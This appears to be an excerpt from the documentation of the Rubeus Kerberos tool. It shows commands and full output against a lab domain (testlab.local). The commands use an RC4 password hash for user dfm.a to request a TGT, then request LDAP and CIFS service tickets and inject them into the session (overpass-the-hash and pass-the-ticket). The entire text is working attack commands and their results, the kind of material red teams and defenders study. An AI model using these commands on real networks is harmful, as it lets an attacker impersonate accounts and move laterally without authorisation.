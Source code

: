 Requesting a TGT for dfm.a and then using that ticket to request a service ticket for the "LDAP/primary.testlab.local" and "cifs/primary.testlab.local" SPNs:

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1537 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip)... /service:LDAP/primary.testlab.local,cifs/primary.testlab.local /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ request for: 'LDAP/primary.testlab.local'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1514 bytes
    [*] Received 1562 bytes
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFzjCCBcqgAwIBBaEDAgEWoo...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!
